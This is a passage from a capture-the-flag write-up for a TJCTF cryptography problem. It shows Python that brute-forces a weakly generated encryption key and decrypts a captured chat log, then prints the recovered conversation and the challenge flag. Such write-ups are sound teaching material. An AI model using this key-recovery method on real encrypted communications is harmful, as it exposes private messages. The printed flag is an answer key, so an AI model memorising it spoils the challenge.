        dec = cipher.decrypt(data)

        if b'<article>' in dec:
            print(ts, key, iv)
            break
```

Once I had the key, I could just go ahead and decrypt the message. The truncated messages were no problem, those only corrupted the end of the message that was truncated and the first block of the next message, none of which contained the flag.

```python
    for line in d:
        try:
            data = base64.b64decode(line)
            dec = cipher.decrypt(data)
            dec = dec[:-dec[-1]]
            print(dec.decode())
        except:
            # truncated & lines following truncated lines
            continue
```

The entire conversation, sans formatting and corrupted messages, is as follows:

```
hello
anybody there?
hey
yo whats up?
nm hbu
did you take the test yesterday?
yeah, unfortunately, lol
how was it?
cmon bruh
what if frank sees these messages dude
whatever i&#x27;ll just send you the deets later
hmm okay
btw what was the flag for that tjctf problem
uhh which one?
the one we talked about yesterday
oh that one
flag was tjctf{r3nd0m_nUmb3r_gen3r4t0r_0P}
nice
i guess i&#x27;ll see you next class
cool cya then
wait, when is our next class anyways...i forgot
bruh
it&#x27;s at 11:30
crap, 11:30?, that&#x27;s literally in 2 minutes
how have you still not memorized your schedule
idk i have bad memory
well you better start walking, it&#x27;s pretty far lmao
unlucky...
i might be like 10 minutes late to class anyways
oh why?
i still have to wrap up this tjctf problem
oh THAT problem?
yea ;)
;)
when is tjctf again?
its in 2 days
how do you not remember when your own competition is??
i guess i have bad memory too xd
smh
well i guess ill see you in class
yeah hurry up tho
cya
```

- flag: `tjctf{r3nd0m_nUmb3r_gen3r4t0r_0P}`
- soulution: [solution.py](ergodicity/solution.py)
